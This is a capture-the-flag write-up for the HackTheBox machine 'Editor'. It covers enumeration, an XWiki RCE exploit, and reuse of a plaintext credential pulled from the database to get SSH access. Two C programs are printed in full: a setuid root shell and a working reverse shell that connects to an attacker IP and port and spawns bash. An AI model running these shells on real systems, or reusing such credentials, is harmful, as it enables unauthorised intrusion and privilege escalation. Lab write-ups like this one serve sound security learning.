

# Editor HackTheBox

Editor is a medium-rated HackTheBox machine that demonstrates a classic web-to-root workflow. The engagement began with network discovery and web enumeration, revealing multiple virtual hosts and an XWiki instance vulnerable to remote code execution. Exploiting the XWiki flaw granted database access, where a credentials record was located and reused to obtain SSH access.

Start with an Nmap scan 

add editor.htb into /etc/hosts

we can see there are two web pages. in that one we can see that it is using XWiki Debian 15.10.8 

so search for exploits

download the exploit and use it

chat gpt recommened that search for any password in the db we could find some 

i have used a simple query to search and i have found one . use this to get the ssh 

Oliver:theEd1t0rTeam99

#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}

Compile this using gcc in your machien and transfer this to the attackbox

Because it is a setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped

Then give enough permission and set the default path as the directry in this case it is /tmp and run this

Or you can use the custom program that i bild

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <errno.h>
#include <string.h>

int main(void){
    int port = 9998;
    const char *rhost = "10.10.14.116";
    int sockt;
    struct sockaddr_in revsockaddr;

    sockt = socket(AF_INET, SOCK_STREAM, 0);
    if (sockt < 0) {
        perror("socket");
        return 1;
    }

    memset(&revsockaddr, 0, sizeof(revsockaddr));
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr(rhost);

    if (connect(sockt, (struct sockaddr *)&revsockaddr, sizeof(revsockaddr)) < 0) {
        perror("connect");
        close(sockt);
        return 1;
    }

    /* attempt to drop into root (only works if already privileged) */
    if (setgid(0) != 0) {
        /* Non-fatal: print warning but continue */
        fprintf(stderr, "setgid failed: %s\n", strerror(errno));
    }
    if (setuid(0) != 0) {
        fprintf(stderr, "setuid failed: %s\n", strerror(errno));
    }

    /* redirect std{in,out,err} to the socket */
    for (int i = 0; i <= 2; i++) {
        if (dup2(sockt, i) < 0) {
            perror("dup2");
            /* continue trying; not fatal necessarily */
        }
    }

    /* execute an interactive bash */
    execl("/bin/bash", "bash", NULL);

    /* if execl fails */
    perror("execl");
    close(sockt);
    return 1;
}

Note: 
    int port = 9998;
    const char *rhost = "10.10.14.116"; change these values to your own

   make this better